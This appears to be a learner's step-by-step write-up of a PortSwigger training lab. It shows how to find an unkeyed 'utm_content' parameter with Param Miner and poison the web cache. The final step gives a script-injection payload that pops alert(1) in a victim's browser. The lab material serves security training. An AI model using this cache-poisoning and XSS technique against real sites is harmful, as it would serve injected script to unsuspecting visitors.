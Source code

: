 # Web cache poisoning via an unkeyed query parameter

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome.

## To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

### step1

send homepage to the repeter

![screenshot](./images/lab6_homepage_into_repeter.png)

### step2

add cache buster
/?test=124 (it can be anything)

![screenshot](./images/lab6_added_cache_buster_to_homepage.png)

### step3

Note: when age: > 0 and x-cache:hit
send param miner (header => guess GET parameter)
and again send request into repeter

![screenshot](./images/lab6_param_miner_output_homepage.png)

### step4

added _/?test=124&utm_content=zwrtxqvaltp0fwtqx8&xomohdiqmx6=1&vrnn08k41=1_

![screenshot](./images/lab6_add_utm_content_into_repeter.png)

### step5

testing hello

![screenshot](./images/lab6_testing_hello_with_cache_buster.png)

### step6

open current session into browser

![screenshot](./images/lab6_home_page_with_hello.png)

### step7

final payload
_/?utm_content='/><script>alert(1)</script>_

![screenshot](./images/lab6_final_payload_utm_alert.png)

### step8

\
lab solved message will appear
still to confirm pop up
request current session into browser
reload page many times pop up will appear

![screenshot](./images/lab6_popup_mesage_testing_payload.png)
